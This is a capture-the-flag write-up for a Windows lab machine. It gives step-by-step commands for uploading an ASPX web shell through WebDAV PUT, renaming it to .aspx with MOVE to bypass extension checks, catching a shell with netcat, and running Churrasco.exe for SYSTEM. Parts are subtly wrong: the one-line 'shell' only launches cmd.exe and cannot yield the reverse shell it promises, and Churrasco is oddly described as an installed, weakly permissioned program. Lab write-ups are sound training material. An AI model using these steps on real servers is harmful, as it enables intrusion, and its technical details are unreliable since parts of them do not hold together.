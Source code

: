 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB](HTB)
- **Exploits Used**:  
  - Protocol WebDAV PUT/MOVE  
  - File extension bypass via `.txt → .aspx`  
  - Local PrivEsc using `Churrasco.exe`  
- **Open Ports:**  
  - [HTTP](HTTP) 80/tcp  

---

## TLDR 🚀
- **Find** WebDAV enabled on the web server (allows PUT/MOVE).  
- **Upload** a simple ASPX web‑shell disguised as `.txt`, then **MOVE** it to `.aspx`.  
- **Invoke** the shell for remote code execution and grab a low‑privilege shell.  
- **Enumerate** locally, discover `Churrasco.exe` installed with weak permissions.  
- **Run** `Churrasco.exe` to escalate to SYSTEM.  

---

## Recon & Enumeration 🕵️‍♂️

1. **Port scan** (HTTP only):  
   ```bash
   nmap -p80 --script http-methods --script-args http-methods.url-path=/ 10.129.83.212
   ```
   - Shows `OPTIONS`, `GET`, `HEAD`, **`PUT`**, **`MOVE`**, etc. indicating WebDAV support.

2. **Directory brute-forcing** (optional):  
   ```bash
   gobuster dir -u http://10.129.83.212/ -w /usr/share/wordlists/common.txt -x txt,aspx
   ```
   - No obvious upload form—WebDAV is the vector.

3. **Confirm WebDAV** with a simple `OPTIONS` request:  
   ```bash
   curl -i -X OPTIONS http://10.129.83.212/
   ```
   - Look for `DAV: 1,2` in the response headers.

---

## Exploitation 🚀

### 1. WebDAV Upload & File‑Extension Bypass  
1. **Craft** a minimal ASPX web‑shell (`shell.txt`):
   ```asp
   <% System.Diagnostics.Process.Start("cmd.exe"); %>
   ```
2. **Upload** it to the server (anonymous WebDAV):
   ```bash
   curl -v -T shell.txt http://10.129.83.212/shell.txt
   ```
3. **Rename** it to `.aspx` so IIS will execute it:
   ```bash
   curl -v -X MOVE \
     -H "Destination: http://10.129.83.212/shell.aspx" \
     http://10.129.83.212/shell.txt
   ```
4. **Trigger** the shell:
   - Point your browser or use `curl`:
     ```bash
     curl http://10.129.83.212/shell.aspx
     ```
   - You’ll get a **reverse shell** if you’ve got a listener ready.

5. **Listener** on your machine:
   ```bash
   nc -lvnp 4444
   ```
   - Connects back as a low‑privilege Windows user.

---

## Local Privilege Escalation 🔒 → 🔓

1. **Basic enumeration**:
   ```powershell
   whoami /priv
   dir "C:\Program Files" | findstr /i Churrasco
   ```
2. **Discover** `C:\Program Files\Churrasco\Churrasco.exe` with **weak ACLs** (everyone can execute).
3. **Exploit** with the official tool:
   ```powershell
   cd "C:\Program Files\Churrasco"
   .\Churrasco.exe
   ```
   - This leverages a known COM/UAC bypass to spawn a SYSTEM shell.
4. **Verify** SYSTEM:
   ```powershell
   whoami
   # → nt authority\system
   ```

---

## Tools 🛠️
- **nmap** – port & WebDAV enumeration  
- **gobuster** – directory brute‑forcing  
- **curl** – WebDAV PUT/MOVE & shell trigger  
- **netcat** – reverse shell listener  
- **Churrasco.exe** – local PrivEsc  

---

## Commands to Solve Box 📝

```bash
# 1. Scan for WebDAV support
nmap -p80 --script http-methods --script-args http-methods.url-path=/ 10.129.83.212

# 2. Upload web‑shell disguised as .txt
curl -v -T shell.txt http://10.129.83.212/shell.txt

# 3. Rename to .aspx
curl -v -X MOVE \
  -H "Destination: http://10.129.83.212/shell.aspx" \
  http://10.129.83.212/shell.txt

# 4. Trigger shell (in another terminal)
nc -lvnp 4444

# 5. On the box, enumerate for Churrasco.exe
whoami & whoami /priv
dir "C:\Program Files" | findstr /i Churrasco

# 6. Run Churrasco for SYSTEM
cd "C:\Program Files\Churrasco"
.\Churrasco.exe
whoami  # should return nt authority\system
```

---

## Actions Learned 💡
- How to **leverage WebDAV** on IIS for anonymous file upload (PUT/MOVE).  
- Trick IIS into executing a file by **bypassing extension restrictions** (`.txt` → `.aspx`).  
- Basic Windows **local enumeration** to spot weakly‑permissioned binaries.  
- Use of **Churrasco.exe** for UAC/COM bypass to escalate from a regular user to SYSTEM.

---

## References 📚
- WebDAV PUT/MOVE on IIS:  
  – https://docs.microsoft.com/en-us/iis/configuration/system.webserver/webdav  
- HTTP Methods enumeration with Nmap:  
  – https://nmap.org/nsedoc/scripts/http-methods.html  
- Churrasco Privilege Escalation:  
  – https://github.com/adamd00/Churrasco  
- HTB WebDAV write‑up examples:  
  – https://0xdf.gitlab.io/ (for inspiration)  